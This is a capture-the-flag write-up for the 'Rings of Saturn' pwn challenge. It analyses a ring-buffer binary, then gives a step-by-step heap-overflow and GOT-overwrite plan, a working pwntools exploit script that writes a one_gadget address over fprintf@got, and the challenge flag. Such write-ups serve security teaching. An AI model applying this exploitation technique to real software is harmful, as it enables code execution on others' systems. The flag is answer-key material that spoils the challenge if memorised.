 # Rings of Saturn (pwn)
## problem
"We’ll go to the moons of Jupiter, at least some of the outer ones for sure, and probably Titan on Saturn" - Elon Musk

## analysis
The result of checksec is below. There is no PIE and partial RELRO. So we can use "GOT overwrite".  
![checksec](img/checksec.png)

Now, put in the binary in ghidra, follow the flow of execution.  
### main
In main function, an address of an one_gadget would be leaked at first. Thus this depends on libc base, we can calculate the address of libc base. Then, The program asks prefer size of the buffer as a arg of `ringbuf_init` and enter do-while statement. We can see that `menu` variable is used several times. The elements of `menu` are structure that contains function and its name. So the syntax:`(*(code *)menu[uVar1 * 2 + 1])(uVar2)`, is call the function depends on our input. 

`main`:  
![main](img/main.png)  

### ringbuf_init
At first, the program asks how to segment the size that was asked in `main` function. Each segment must be 1000 or more bytes and less than 3000 bytes. These segments are given the type `buffer` (I named it) and chained by each `next` variables. In addition, `buf_entries` (I named it) is allocated which define the top and bottom of that chain.  
Members of `buffer` and `buf_entries`:
![struct](img/struct.png)  

Finally, The chain of those are like below:  
![end_init](img/end_init.png)

### ringbuf_add
Add a `buffer` to the `bottom` of `buf_entries`

### ringbuf_remove
remove a `arg0`th `buffer` counting from `top`. 

### ringbuf_write
Read our input: size and data, and write data on the address of `now_on_use->pbuf`. Then, get how many bytes was read and add this to `now_on_use->pbuf`. If the value of `pbuf` is same or larger than `&buf+size`, the value of `now_on_use` would be modified to `now_on_use->next`.  
![write](img/write.png)

### exit_wrapper
Call `fprintf` to print Final message.

## Exploit
I found that if we input `1000` at first, just one `buffer` allocated to heap. In addition, we can cause heap-overflow and modified size of the next chunk. So the plan for the exploit is below:  
1. Input 1000. (chunk size=0x400)
2. Add `buffer` as size=1000 twice. (chunk size=0x410)
3. Use heap-overflow and modified size=0x821. (The most lower bit is PREVIOUS_INUSE)
4. Remove that `buffer` which chunk size is 0x821.
5. Add `buffer` as size=0x800  (img: Exploit1)
6. Modifed `pbuf` of third `buffer` to `fprintf@got`.
7. Write one_gadget on the address of `fprintf@got`.
8. choose "`4. quit`" and call `fprintf`.

Exploit1:  
![exploit1](img/exlpoit1.png)  
Exploit2:  
![exploit2](img/exlpoit2.png)  

I couldn't use one_gadget that is given at first. So I used another one_gadget.
```
def add(size=0x10):
    io.sendlineafter("> ", "0")
    io.sendlineafter("> ", str(size))

def write(size=0x10, data=[b"a"]):
    io.sendlineafter("> ", "3")
    io.sendlineafter("> ", str(size))
    for e in data:
        io.recvuntil("> ")
        io.send(e)

def remove(index):
    io.sendlineafter("> ", "1")
    io.sendlineafter("> ", str(index))


def exploit():
    io.recvuntil("lol ")
    leak = io.recvline()[0:-1]
    gadget = int(leak, 16)
    offset = 0x7f00ff91a365-0x007f00ff8cb000
    print("gadget: ", hex(gadget))
    libc.address = gadget - (offset)
    print("libc base: ", hex(libc.address))
    offset = 0x10a45c
    gadget = libc.address + offset

    io.recv()
    io.sendline(str(1000))
    add(1000)
    add(1000)
    payload = [b'a'*992 + p64(0x821), b'a'*1000]
    write(2000, payload)
    remove(1)
    add(0x800)
    payload = [b'b'*1000, b'b'*1008 + p64(0x411) + p64(elf.got["fprintf"])]
    write(2024, payload)

    payload = [b"c"*1024, b"c"*992 + p64(0x821),  p64(gadget)]
    write(2032, payload)

    io.sendlineafter("> ", "4")
```

Flag: `shctf{r0und_and_r0und_we_go}`